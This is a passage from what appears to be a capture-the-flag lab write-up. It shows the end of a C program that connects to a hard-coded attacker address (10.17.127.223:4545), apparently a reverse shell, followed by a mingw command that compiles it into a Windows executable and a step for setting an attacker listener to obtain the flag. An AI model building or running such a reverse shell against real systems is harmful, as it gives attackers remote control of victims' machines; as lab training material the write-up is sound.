         int main(int argc, char **argv) {
            if (argc == 3) {
                int port = atoi(argv[2]);
                runn(argv[1], port);
            } else {
                char host[] = "10.17.127.223";
                int port = 4545;
                runn(host, port);
            }
            return 0;
        }
        ```

    * Compile cript to exe file
        
        ```
        x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32
        ``` 
    
    * Set listener on attacker machine
    
        ![task7-listener](./images/task7-listener.png)

    * Get the flag

        ![task7-flag](./images/task7-flag.png)
